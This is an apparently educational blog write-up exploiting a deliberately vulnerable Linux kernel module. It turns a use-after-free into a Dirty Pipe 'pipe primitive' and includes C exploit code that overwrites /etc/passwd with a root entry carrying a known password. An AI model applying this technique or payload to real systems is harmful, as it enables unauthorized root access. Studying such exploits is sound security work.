 ```yaml
---
title: Linux Kernel Exploitation - Dirty Pipe
date: 2025-04-30
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain Dirty Pipe, a universal and data-only exploitation technique that allows us to arbitrarily overwrite read-only files. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/dirty-pipe) beforehand.

## Analysis
The vulnerable LKM provides four commands: `CMD_ALLOC`, `CMD_READ`, `CMD_WRITE`, and `CMD_FREE`. These commands are used to allocate, read from, write to, and free an object defined as follows:
```c
#define OBJ_SIZE    0x400

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` internally uses `kzalloc` with the `GFP_KERNEL` flag. This means the object will be allocated from kmalloc-1k.
```c
static long obj_alloc(void) {
    if (obj != NULL) {
        return -1;
    }
    obj = kzalloc(sizeof(struct obj), GFP_KERNEL);
    if (obj == NULL) {
        return -1;
    }
    return 0;
}
```

## Bugs
In `obj_free`, `obj`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(void) {
    kfree(obj);
    return 0;
}
```
This results in an obvious UAF. Since we already have read and write primitives, it is not difficult to control RIP and escalate privileges. However, in this post, we take a data-only approach using Dirty Pipe. Data-only attacks are increasingly important in the current era (due to `CONFIG_CFI_CLANG`) and are widely used in real-world kernel exploits.

## Dirty Pipe
The essence of Dirty Pipe is that when splicing a read-only file to a pipe, the `flags` field in the corresponding `struct pipe_buffer` can be set to `PIPE_BUF_FLAG_CAN_MERGE`, which enables arbitrary overwrites of the read-only file by writing to the pipe.
In the original bug (now patched), this was possible because the `flags` field was left uninitialized.
However, in our case, we have a UAF primitive, and since `CONFIG_MEMCG` is disabled, the array of `struct pipe_buffer` is also allocated from kmalloc-1k in [`alloc_pipe_info`](https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L815-L816). This allows us to recreate the same situation by overwriting the `flags` field. This method is called the [pipe primitive](https://github.com/veritas501/pipe-primitive).

## Exploitation
First, we allocate and free the victim object:
```c
puts("[*] Allocating a victim object from kmalloc-1k");
obj_alloc();

puts("[*] Freeing the victim object");
obj_free();
```
Second, we allocate an array of `struct pipe_buffer` and overlap it with the freed victim object:
```c
puts("[*] Allocating pipe buffers to reclaim the memory");
int pipefd[2];
assert(pipe(pipefd) != -1);
```
Third, splice `/etc/passwd` to the pipe:
```c
int filefd = open("/etc/passwd", O_RDONLY);
assert(filefd != -1);
long offset = 0;
assert(splice(filefd, &offset, pipefd[1], NULL, 1, 0) != -1);
```
Note that we need to splice at least one byte because of the check in [`do_splice_read`](https://elixir.bootlin.com/linux/v6.13/source/fs/splice.c#L967-L968).

Fourth,we leak the contents of the `struct pipe_buffer` and overwrite its `flags` member with `PIPE_BUF_FLAG_CAN_MERGE`:
```c
puts("[*] Leaking the contents of pipe->bufs[0]");
struct pipe_buffer fake_pipe_buffer;
obj_read((char *)&fake_pipe_buffer, sizeof(fake_pipe_buffer));
printf(
    "[+] .page = %p, .offset = %#x, .len = %#x, .ops = %p, .flags = %#x, .private = %#lx\n", 
    fake_pipe_buffer.page,
    fake_pipe_buffer.offset,
    fake_pipe_buffer.len,
    fake_pipe_buffer.ops,
    fake_pipe_buffer.flags,
    fake_pipe_buffer.private
);

puts("[*] Overwriting .len with 0 and .flags with PIPE_BUF_FLAG_CAN_MERGE");
fake_pipe_buffer.len = 0;
fake_pipe_buffer.flags = PIPE_BUF_FLAG_CAN_MERGE;
obj_write((char *)&fake_pipe_buffer, sizeof(fake_pipe_buffer));
```
Note that we also overwrite `len` member to be 0 because the data will be written from `offset + len` in [`pipe_write`](https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L477-L485).

Finally, we overwrite `/etc/passwd` (`j9ep0CjBGivAnD5z6l5rr0` is MD5-encoded password with salt `deadbeef`):
```c
char payload[] = "root:$1$deadbeef$j9ep0CjBGivAnD5z6l5rr0:0:0:root:/root:/bin/sh";
printf("[*] Overwriting /etc/passwd with %s\n", payload);
assert(write(pipefd[1], payload, sizeof(payload)) != -1);
```
By running this exploit, you can log in as a root user with the password `cafebabe` and see the flag:
![win](/assets/img/posts/2025-04-30-4/win.png)

## References
1. Max Kellermann. The Dirty Pipe Vulnerability. https://dirtypipe.cm4all.com/